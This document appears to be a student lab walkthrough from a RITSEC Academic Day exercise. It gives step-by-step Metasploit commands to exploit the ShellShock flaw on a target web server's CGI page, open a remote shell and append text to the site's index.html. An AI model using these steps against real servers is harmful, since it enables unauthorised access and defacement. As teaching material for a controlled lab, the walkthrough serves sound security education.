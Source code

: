 # RITSEC Academic Day - ShellShock 

## Viewing the Website

Open your browser and head to http://<TARGET_IP>:8080

## Setup
- Open 'VMWare Workstation Pro'
- Click on 'Kali Linux 2021' on the left side list of VMs
- Right click again on 'Kali Linux 2021' and click 'Settings'. 
    - Select 'Network Adapter' and change it to 'Bridged'
- Click the Black Box with the "$_" to open the terminal.

![terminal](terminal.PNG)

## Attacking the Box - Commands To Run
This will open the Metasploit Console.
1. `msfconsole`

![landing](landing.PNG)

Here, you are searching for the shellshock vulnerability to use.

2. `search shellshock`

![search](search.PNG)

This is selecting the shellshock exploit.

3. `use 1`

![use1](use1.PNG)

This is seeing the module and payload options that will be configured.

4. `options`

![options](options.PNG)

Setting the vulnerable cgi page to utilize.

5. `set targeturi /cgi-bin/vulnerable`

![targeturi](targeturi.PNG)

Setting the target hosting the site that we will attack.

6. `set rhosts <TARGET_IP>`

Setting the port the website is being hosted on.

7. `set rport 8080`

![rport](rport.PNG)

Attack the box!

7. `exploit`

![exploit](exploit.PNG)

With the meterpreter prompt, enter `shell` to spawn a bash prompt on the box.

8. `shell`

![shell](shell.PNG)

## Modifying the Website

With your shell, now you can modify the website. Run the pwd command to see your path (location) on the remote box.

1. `pwd`

![pwd](whoamiandpwd.PNG)

Most websites by default keep their files in `/var/www`. Change to this directory and list the contents.

2. `cd /var/www`
3. `ls`

![cdandls](cdandls.PNG)

The `index.html` file contains the main page of the website. Add your name to it below. 

The `echo` command will write what you give it into the file given. MAKE SURE TO USE TWO (2) '>' keys!

4. `echo 'your_name_here' >> index.html`

![echo](addyourname.PNG)

Now visit the website and see that your name has been publicly added!

Now it's your turn, find out how to add a page of your own to the site. (Hint: use the `touch` command)